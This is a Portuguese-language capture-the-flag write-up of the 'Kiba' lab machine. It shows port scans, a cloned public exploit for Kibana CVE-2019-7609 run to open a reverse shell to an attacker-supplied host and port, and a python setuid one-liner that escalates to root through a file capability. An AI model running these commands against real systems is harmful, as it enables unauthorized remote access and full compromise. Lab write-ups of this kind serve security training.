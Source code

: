 # Kiba

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.0.81
```
![image](https://github.com/lufffe/Writeups/assets/90646635/faf56563-dd08-4802-8e81-ac2e3b52315f)

![image](https://github.com/lufffe/Writeups/assets/90646635/53c0174f-da66-48aa-979b-0d43b8d7bdad)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80,5044,5601 10.10.0.81
```
![image](https://github.com/lufffe/Writeups/assets/90646635/402636d0-e7bb-4d61-8ddf-5a84c01d75ac)

* ### Verificando o que roda na porta 5601
![image](https://github.com/lufffe/Writeups/assets/90646635/64849b76-3d7b-4138-b1af-c92d4edf81c7)

* ### Procurando um exploit para o Kibana.
https://github.com/LandGrey/CVE-2019-7609

```bash
git clone https://github.com/LandGrey/CVE-2019-7609.git
```

```bash
python CVE-2019-7609-kibana-rce.py
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6a686632-a740-41f8-9c38-0e54dfd637af)

* ### Pegando uma reverse shell pelo Kibana.
```bash
python2.7 CVE-2019-7609-kibana-rce.py -u http://10.10.0.81:5601/ -host IP -port 4455 --shell
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7ee14eb2-938b-41c8-b0b9-753c90c10c3c)

![image](https://github.com/lufffe/Writeups/assets/90646635/de86f28c-000c-43b9-acce-92466073cd29)

![image](https://github.com/lufffe/Writeups/assets/90646635/7f9a0979-003c-4ace-a803-6f6187d7aa8a)

* ### Flag User.
```bash
kiba@ubuntu:/home/kiba$ cat user.txt
```

* ### Escalando o previlégio.
```bash
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6d17ac7a-ce2d-49e6-ba5a-2c97bac35b26)

* ### GtFobins.
![image](https://github.com/lufffe/Writeups/assets/90646635/a9bf60f5-d3b8-4413-95f6-8e55f00ef0bf)

```bash
kiba@ubuntu:/home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
![image](https://github.com/lufffe/Writeups/assets/90646635/00ff7334-fbb6-4a8d-95b5-d7ea042e2e92)

* ### Flag Root.
```bash
cat /root/root.txt
```
